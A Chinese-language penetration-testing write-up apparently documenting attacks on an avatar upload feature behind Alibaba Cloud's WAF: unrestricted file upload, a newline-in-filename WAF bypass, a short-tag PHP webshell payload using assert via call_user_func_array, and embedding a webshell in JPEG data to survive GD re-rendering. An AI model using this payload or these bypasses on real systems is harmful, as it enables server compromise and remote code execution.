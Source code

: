![图片.png](https://cdn.nlark.com/yuque/0/2021/png/21929389/1637737354072-69c6cdcd-d895-4739-a094-a216cecc9a30.png#averageHue=%23f6f2f2&clientId=u00b39724-4884-4&from=paste&height=167&id=u32e39f49&originHeight=167&originWidth=1320&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26989&status=done&style=none&taskId=u7660b09e-6b26-454c-9b9a-bc8caa546f6&title=&width=1320) 修改filename类型为txt，发现可以上传成功，说明该处上传没有对文件类型进行限制，是一个潜在的getshell点：  ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/21929389/1637737386187-d8ae2b00-8f75-4990-8472-4f9601a52e6e.png#averageHue=%23f5f3f3&clientId=u00b39724-4884-4&from=paste&height=186&id=eJ31T&originHeight=186&originWidth=1218&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33457&status=done&style=none&taskId=u878152cc-d176-43ca-a317-8b283edf915&title=&width=1218) 尝试修改文件类型为php，不出意外被阿里云WAF拦截了：  ![图片.png](02.文件上传.assets/2023_05_19_14_38_08_xQ4Swr6V.png)在之前的测试中，已经发现头像上传位置可以进行其他类型文件上传，但是测试php文件上传时被云WAF拦截了。对云WAF的绕过主要可以依靠数据包变形、分块、去除关键字特征等。
### 文件类型检测绕过
 测试将filename中的文件名用换行分隔即可绕过(从文件名中间找个位置，不是文件扩展名)  ![图片.png](02.文件上传.assets/2023_05_19_14_38_08_6MlgcVQW.png)
### 文件内容检测绕过
WAF还会检测内容，如存在常见的<?php就会直接拦截，经过尝试，可以使用[短标签](https://www.php.net/manual/zh/language.basic-syntax.phptags.php)`<?=phpinfo();?>`、敏感函数替换加上传参分离得到payload `<?=@$_=$_REQUEST;call_user_func_array('assert',array($_[_]));?>`，这里服务端的`systemerror`是因为图像渲染出错的异常:
![image.png](02.文件上传.assets/2023_05_19_14_38_08_PdjcvDJf.png)
#### GD库渲染绕过
上面的图片在传到后台时会被php的gd库重新渲染，因为上传的文件重新下载回来md5校验对不上。将文件类型改成txt上传，查看响应包发现特征 `gd-jpeg v1`:
![image.png](02.文件上传.assets/2023_05_19_14_38_08_Fb32zilq.png)
看来图片是被重新渲染了，使用了php扩展gd库中的`imagecreatefromjpeg()`，`imagecreatefromstring(),``imagejpeg()`等函数处理。这些函数在图片渲染过程中，其实存在部分原始数据没有被修改到，不同的图片类型渲染情况也不相同，主要看后端处理后是什么类型的图片特征，上面的图片从文件头JFIF和gd-jpeg看应该是用`imagejpeg()`生成的。这里对gd库的渲染绕过进行一些整理。
#### JPG二次渲染
使用脚本[jpg_payload.php](https://github.com/BlackFan/jpg_payload)来处理图片需要先在头像上传的位置上传一个正常的图片，然后再把渲染后的图片下载回来用脚本处理(脚本要求，最终图像的大小必须与原始图像相同)。脚本的原理是在将webshell编码成图像数据写入到图片的Scan Header之后，文件生成后使用gd库测试是否能正常渲染然后输出payload图片。